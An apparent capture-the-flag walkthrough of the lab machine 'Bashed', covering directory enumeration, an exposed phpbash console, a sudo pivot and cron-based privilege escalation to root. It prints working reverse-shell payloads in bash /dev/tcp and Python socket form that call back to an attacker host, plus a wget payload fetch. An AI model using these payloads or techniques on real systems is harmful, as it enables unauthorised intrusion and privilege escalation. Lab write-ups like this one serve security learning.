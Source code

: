 With GoBuster we identify the dev folder when phpbash console is located

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68:80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/28 20:18:17 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
Progress: 40298 / 87665 (45.97%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/07/28 20:24:52 Finished
```

Accesing to http://10.10.10.68/dev/phpbash.php we got a shell, and we can upload a php file with a reverse shell and a netcat listener we can upgrade our shell

```bash
shell.php 

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/1234 0>&1'");
?>
```

Through a python server (`python3 -m http.server 8000`) upload the shell.php file to the server (retrieve with `wget http://10.10.15.4:8000/shell.php`) and execute it (`php shell.php`). With a netcat listener we got a proper shell with user www-data

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 55970
bash: cannot set terminal process group (809): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/tmp$ whoami
whoami
www-data
```

Upgrade TTY

With sudo -l we see than we can execute commands as scriptmanager

```bash
www-data@bashed

:/home/scriptmanager# sudo -l
  
Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can use `sudo -u scriptmanager <command>` to execute commands as scriptmanager. To get a shell as scriptmanager and avoid to execute `sudo -u scriptmanager` everytime we can reuse the shell.php file.

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager php shell.php

----------------

┌──(kali㉿kali)-[~/Documents/Boxes/Bashed-10.10.10.68]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 55972
scriptmanager@bashed:/tmp$ whoami
whoami
scriptmanager
```

After upgrade TTY again, we got a shell as scriptmanager

Checking folder with permisions (`ls -la`) we see the `/scripts` folder and inside we have an python script which creates the test.txt file, but test.txt file is owned by root

```bash
scriptmanager@bashed:/scripts$ ls -la
total 24
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jul 29 00:36 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  219 Jul 29 00:40 test.py
-rw-r--r--  1 root          root            12 Jul 29 00:43 test.txt
```

If we execute the python script we can see that the test.txt file would be created again and the owner would be scriptmanager, but if we wait a minute the owner would change to root again. This is because a cron job executes the test.py script as root so lets create a python reverse shell and wait for the cron job to be executed as root

```bash

Reverse shell in python script:

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.5",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

---------------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 53002
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

And we are root
